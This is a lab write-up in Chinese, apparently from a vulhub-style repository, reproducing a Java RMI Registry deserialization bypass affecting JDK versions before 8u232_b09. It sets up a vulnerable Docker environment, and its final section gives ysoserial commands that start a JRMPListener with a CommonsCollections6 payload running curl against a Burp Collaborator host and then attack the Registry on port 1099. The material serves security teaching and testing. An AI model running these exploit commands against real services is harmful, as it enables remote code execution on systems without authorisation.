

# Java < JDK8u232_b09 RMI Registry 反序列化远程代码执行绕过

Java Remote Method Invocation（RMI）是Java中用于远程过程调用的机制。尽管远程绑定通常是被禁用的，但RMI Registry中包含一个可被利用的远程绑定功能。攻击者可以在绑定过程中，通过伪造序列化数据（实现Remote接口或动态代理实现了Remote接口的对象），使Registry在对数据进行反序列化时触发相应的利用链。

自JDK 8u121起，Registry对反序列化的类实施了白名单限制：

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在这些白名单类中找到可利用的类。详细原理请参考[浅谈RMI Registry反序列化问题](https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/)。

参考链接：

- <https://blog.0kami.cn/blog/2020/rmi-registry-security-problem-20200206/>
- <https://github.com/wh1t3p1g/ysoserial>

## 环境搭建

执行如下命令编译及启动RMI Registry和服务器：

```
docker compose build
docker compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

将`your-ip`替换为你的服务器IP地址，客户端将使用此IP连接服务器。

环境启动后，RMI Registry将监听在1099端口。

## 漏洞复现

使用[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或RMIRegistryExploit3进行攻击：

```bash
# 启动JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
# 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```



Registry会返回报错，这是正常现象，命令仍会成功执行。
